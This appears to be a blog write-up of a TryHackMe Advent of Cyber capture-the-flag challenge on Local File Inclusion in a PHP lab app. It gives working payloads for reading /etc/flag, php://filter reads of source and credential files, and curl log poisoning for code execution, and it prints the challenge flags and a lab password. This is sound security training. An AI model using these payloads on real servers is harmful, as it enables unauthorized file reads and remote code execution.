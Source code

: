 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 6 - Patch Management is Hard"
date:   2021-12-13 11:00:00 +1000
excerpt: Learning about Local File Inclusion (LFI) Vulnerabilities. 
---
```


This is a write up for the Day 6 - Patch Management is Hard challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### Deploy the attached VM and look around. What is the entry point for our web application?

When visiting the homepage there is a text while which is loaded via a GET parameter.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_1.png">

> Answer: **err**

### Use the entry point to perform LFI to read the /etc/flag file. What is the flag?

Changing the parameter to /etc/flag reveals the flag.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=/etc/flag
```

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_2.png">

> Answer: **THM{d29e08941cf7fe41df55f1a7da6c4c06}**

### Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?

The following URL will reveal the base64 encoded version of index.php.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=index.php
```

Putting the base64 encoded content in a base64 decoder reveals the flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_3.png">

> Answer: **THM{791d43d46018a0d89361dbf60d5d9eb8}**

### Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

The file path of the credentials is `./includes/creds.php`.

The following URL returns the credentials.

```
https://10-10-92-121.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=includes/creds.php
```

Decoding the response provides the following credentials.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_4.jpg">

> Answer: **McSkidy:A0C315Aw3s0m**

### Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server? 

We can now attempt to log in at https://10-10-200-251.p.thmlabs.com/login.php

Navigating to the Recover Password page will reveal the password/flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_5.jpg">

> Answer: **THM{552f313b52e3c3dbf5257d8c6db7f6f1}**

### The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.

Sending a curl request to the server to inject PHP.

```
curl -A "<?php phpinfo();?>" http://10-10-200-251.p.thmlabs.com/login.php
```

Then we can access the logs on the frontend to reveal the PHP info. https://10-10-200-251.p.thmlabs.com/index.php?err=includes/logs/app_access.log

Scrolling down the logs we can see the HOSTNAME of the server.

<img src="{{ site.baseurl }}/assets/images/2021-12-13-advent-of-cyber-day-6/d6_6.jpg">

> Answer: **lfi-aoc-awesome-59aedca683fff9261263bb084880c965**

### Recap

In this task we learnt:
 * How to run LFI on a PHP web server
 
